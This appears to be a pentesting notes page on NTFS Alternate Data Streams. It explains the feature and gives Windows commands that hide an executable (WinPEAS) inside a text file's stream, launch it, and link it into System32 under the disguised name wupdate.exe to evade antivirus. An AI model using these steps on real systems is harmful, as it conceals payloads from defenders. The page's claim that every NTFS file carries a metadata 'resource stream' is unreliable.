


# Alternate Data Streams (ADS)

# Explenation

- Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

- Any file created on an NTFS formatted drive will have two different forks/streams :
    - Data stream : Default stream that contains the data of the file.
    - Resource stream : Typically contains the metadata of the file.

- Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.

- This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.

- This technique is usually used to evade basic signature based AVs and static scanning tools.

# Technics

When creating and opening a resource on a Windows system, such as a file, in reality, we are not using the file itself, but rather a data stream.

The usual technique is to be able to hide a resource behind another during its creation, example with the secrets.txt file hidden behind another file :
```
C:\Users\Win7\Desktop> notepad test.txt:secrets.txt
```

So, knowing this, we will be able to hide a payload within the victim system (WinPEAS payload for example) : 

1. Download WinPEAS, rename WinPEAS.exe to payload.exe, and move this executable to C:\Temp.



2. Next, we'll redirect the output of the payload.exe data stream to a new legitimate file (windowslog.txt) :
```
C:\> cd C:\Temp
C:\Temp> type payload.exe > windowslog.txt:winpeas.exe
```



3. Delete payload.exe.

4. For start winpeas now, execute this command : 
```
C:\Temp> start windowslog.txt:winpeas.exe
```

5. And we can create a symbolic link (wupdate) to make it easier to run Winpeas :
```
C:\Temp> cd C:\Windows\System32
C:\Windows\System32> mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
C:\Windows\System32> wupdate
```